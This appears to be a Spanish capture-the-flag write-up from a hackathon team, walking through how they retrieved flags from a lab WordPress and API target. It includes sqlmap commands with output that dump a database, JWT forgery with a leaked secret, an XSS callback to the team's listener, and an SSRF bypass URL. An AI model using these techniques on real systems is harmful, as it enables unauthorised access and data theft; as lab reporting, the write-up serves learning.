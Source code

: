 # Hackathon NUWE - Schneider Electric

Nombres: 
- Gabriel Juan: (GabrielJuan349)[https://github.com/GabrielJuan349]
- Anthony Michael Alonso
- Sergi Morales

Equipo/Mesa: 58

## FLAG{ALWAYS_CHECK_COMMITS}

Para encontrar el git hemos seguido estos pasos:
- url https definida en http://192.168.56.101/robots.txt
- Modificar el etc/hosts para añadir 192.168.56.101 wp.geohome.com
- Accediendo wp.geohome.com, se puede ver un link al github donde está el código fuente en el historial de commits.

![imagen del commit donde hemos encontrado el flag](./images/FLAG{ALWAYS_CHECK_COMMITS}_1.jpg?raw=true)

Imagen del commit donde hemos encontrado el flag

## FLAG{Update_Plugins!}

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --tables

[20:04:16] [INFO] fetching number of tables for database 'flag'
[20:04:16] [INFO] retrieved: 1
[20:04:18] [INFO] retrieved: flag

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag

[20:20:00] [INFO] fetching entries for table 'flag' in database 'flag'
[20:20:00] [INFO] fetching number of entries for table 'flag' in database 'flag'
[20:20:00] [INFO] retrieved: 1
[20:20:04] [INFO] retrieved: FLAG{Update_Plugins!}

## API_FLAG{Never_public_your_secret}

Aprovechando la información del git donde muestra endpoints de register y login, hemos creado un usuario y nos hemos logeado para conseguir un access_token.
Con ese token lo hemos pasado por jwt.io y hemos modificado el usuario por admin, y definido la JWT secret key del github "Ge0HomeIsThePlaceWhereFantasyMeetsReality" y hemos conseguido un nuevo access_token.
Con ese nuevo token hemos hecho una petición postman apuntando al endpoint /admin, el endpoint /admin lo hemos recuperado con fuzz.
![Hacemos el fuzz para encontrar mas endpoints](./images/fuzz_1.jpg?raw=true)

![cambiamos algunas cosas del token(user y le pinemos admin, y ponemos la JWT_SECRET_KEY](./images/token_admin.jpg?raw=true)


## FLAG{sanitize_input}

![Hacemos cross side scripting para enviar una peticion a nuestro kali](./images/cross_side_scripting_2.jpg?raw=true)

Hacemos cross side scripting para enviar una peticion a nuestro kali

![Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag](./images/FLAG{sanitize_input}.jpg?raw=true)

Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag


## FLAG{SSRF_PARA_TOD@S_XD}

![Cambiamos la url para llegar al sitio concreto cambiando letras y todo ](./images/FLAG{SSRF_PARA_TOD@S_XD}.jpg?raw=true)

Para conseguir la Flag hemos usado el URL: http://192.168.56.101/testsite.php?url=http://locAlhost:1337
